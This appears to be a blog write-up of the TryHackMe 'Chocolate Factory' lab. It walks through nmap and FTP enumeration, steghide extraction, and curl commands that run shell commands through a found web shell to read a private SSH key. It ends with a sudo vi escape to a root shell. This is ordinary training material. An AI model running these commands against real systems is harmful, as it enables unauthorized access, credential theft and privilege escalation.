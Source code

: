 ```yaml
---
layout: post
title: TryHackMe/Easy/Chocolate-Factory
abbrlink: 74ce6a9302b14e0092dfbdd4d7a2c716
tags:
  - steg
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Chocolate Factory
date: 1728015926916
updated: 1728284508189
---
```


<https://tryhackme.com/r/room/chocolatefactory>

# Enumeration

## \[+] 10.10.183.40 - chocolate.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.183.40 chocolate.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.183.40
```

There are a lot of ports open, so we'll just scan the top 100 ports using the following Nmap command:

```sh
sudo nmap -v -Pn -sS -top-ports 100 -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 21 - FTP (Rabbit Hole)

We can interact with the FTP port by using an anonymous login by running the following command and press `ENTER` when prompted for the password:

```sh
ftp anonymous@chocolate.thm
```

To list the directories and files, we'll use the `ls` command and `get` to download the `gum_room.jpg` file:

```sh
ls
get gum_room.jpg
```

![85a92a995ab71e54566a50e8e1ff0585.png](/resources/b6ed39bd9f964cdebcefcdfa955e3037.png)

Then enter the `exit` command to quit and close the connection to the FTP server.

### \[-] `gum_room.jpg`

There is a text file hidden in this JPG file. We can use the [steghide](https://steghide.sourceforge.net/) tool to extract the text file. There is no passphrase needed, so hit `ENTER` when prompted:

```sh
steghide extract -sf gum_room.jpg
```

![c16b02ae72b278a62c973c016f1ca48e.png](/resources/14d3382ff0fe4541a59a7c5d4b0bd50f.png)

The text file we just extracted is encoded in base64, so we'll just use the pipe character (`|`) to print the output to the `base64` tool with the `-d` flag to decode the file for us:

```sh
cat b64.txt | base64 -d
```

![2da0834d6a7804310f69eaa7511e52a9.png](/resources/63f72fa7a09142e4945fa99aa87f06a5.png)

After decoding, we'll find that it's an `/etc/passwd` file with the hashed password for the user `charlie`:

![ddc0a210d6991d58461fb398434d94a9.png](/resources/4e8b50fb4b574b6cb4feaaed417312c7.png)

## \[+] Port 113 - TCP

From our Nmap scan results, we'll find a clue on where to find the key for the first question:

![cab34c4894d6189b30774a25f489c5bd.png](/resources/b041346f255b49958f5737ba5ddf1afb.png)

## \[+] Port 80 - HTTP

### \[-] chocolate.thm

Let's try visiting the URL mentioned from the Nmap scan results by replacing `localhost` with `chocolate.thm`, the full URL is `http://chocolate.thm/key_rev_key`.

When the URL loads, it will download a binary file, `key_rev_key`. Instead of running the binary, let's run the `strings` command on the binary to print any human readable strings:

```sh
strings key_rev_key
```

Scrolling through the output, we'll find the key:

![13df3fa5b93641255b1704807f109c5f.png](/resources/43e25b6ebb4d4a51be974ad7544fcfc3.png)

Next, let's try fuzzing for files and directories using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt):

```sh
feroxbuster -u http://chocolate.thm -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x json,txt,js,xml,php,tar,zip,old,bak -s 200,301,302,403 -o p-80-www-ferox.txt
```

![c5ac632a58fd202b3ae443bdbb39a081.png](/resources/682ec3a6f7134e5bb22cf14f950f5f3d.png)

The highlighted URL above is actually a web shell where we can directly run commands. Let's explore this option further.

### \[-] chocolate.thm/home.php

![6fb6561dcf537dbb5f5f5ce3f7056ec7.png](/resources/c874b35445344127b3f75c557db0cd59.png)

The background image makes it hard to see the output, so let's use `curl` and read the output from the terminal instead. First thing we should try is a basic `whoami` command.

We can find what parameter we need by using the Developer's Tools in the browser (Firefox in this case) by pressing the `F12` key and switching to the Network tab then executing the `whoami` command on the webpage:

![608249b66fd8a43f611c1b8ce8cbc670.png](/resources/1f33b82e33ae4b91a1925fa860b71097.png)

![cef7e902cd9e1e4f9b6d74e960fd6fc3.png](/resources/973eee293dfc46959e172449052a6865.png)

```sh
curl -vvv -XPOST -d 'command=whoami' http://chocolate.thm/home.php
```

![888bfcfe1957c2dc94d777ab0c0d05e1.png](/resources/b069973938904d85869a140abf591905.png)

At this point, I saved the `/etc/passwd` file and tried to use the unshadow tool to get the plaintext password, but it was not possible.

# Initial Foothold

### \[-] charlie\@chocolate-factory

Let's try to enumerate any users `/home/` directories by using `ls -lah /home/`:

```sh
curl -vvv -XPOST -d 'command=ls -lah /home/' http://chocolate.thm/home.php
```

![2a1079352671b223fd7eed24bdf34da9.png](/resources/b5f0b8f414a34a05984803f03bddb790.png)

Inside we'll find some SSH keys and the user flag (not readable to our current user `www-data`):

![e9a6abdcefebcb13c60e7e28dd43e3b0.png](/resources/b66a38b0b06b498b83e84bcfe1908625.png)

`teleport`:

```sh
curl -vvv -XPOST -d 'command=cat /home/teleport' http://chocolate.thm/home.php
```

![0b0478bf952d7d59670552ca4e443919.png](/resources/312b1b11018d45a4b16f9aebdefc227a.png)

`teleport.pub`:

```sh
curl -vvv -XPOST -d 'command=cat /home/teleport.pub' http://chocolate.thm/home.php
```

![a4a142f7d2b7374825ecd0b5a7e71408.png](/resources/35df49ae417c47f3a1dd935f8459ce5c.png)

## Port 22 - SSH

Copy the `teleport` private key starting from `-----BEGIN RSA PRIVATE KEY-----` and ending at `-----END RSA PRIVATE KEY-----` to a text file named `charlie.ssh`. Then use `chmod` to give the key proper permissions before connecting via SSH:

```sh
chmod 600 charlie.ssh
ssh -i charlie.ssh charlie@chocolate.thm
```

![45f6f88eefe42c7f357289ca640eabc8.png](/resources/1645a2b4aefe4dba886b3b551bd6dd40.png)

We can now read the user flag in `/home/charlie/user.txt`:

```sh
cat /home/charlie/user.txt
```

![20edc83bbfe1618b695f4841bf497ada.png](/resources/fb26d12f6ab449bfbf90487595462ef0.png)

Let's check the source code of the PHP web pages to see if we can find anything interesting.

Inside `/var/www/html/validate.php`, which is the login portal, we'll find hardcoded credentials:

![aed0cb4a5ebf0de8c0894c6d4db8c631.png](/resources/1a241fe73f4f41e19083f429112e2343.png)

# Privilege Esclation

### \[-] root\@chocolate-factory

Let's check our sudo permissions for the user `charlie` by running `sudo -l`:

![bdcc350d95f11fe0e2e198e63e575148.png](/resources/e905d514a0a041c6815ac57e874da10a.png)

We can use [GTFObins](https://gtfobins.github.io/gtfobins/vi/) for privilege escalation techniques. In this case, we can simply run `vi` text editor with sudo permissions and execute a bash shell within the text editor, effectively giving us a root shell:

```sh
sudo /usr/bin/vi -c ':!/bin/bash' /dev/null
```

![a5c8dea851b9afbd1c5f2424f8f18750.png](/resources/3ffbb851085749b8981001022a065afa.png)

We can find the root flag by running the python script in `/root/root.py` then providing the key we found earlier from extracting the strings in the binary `key_rev_key`:

```sh
python /root/root.py
```

![240b430cb92d6a04b856e09f3dd39bca.png](/resources/4d87ba46a83d474b889f232f1a284de8.png)
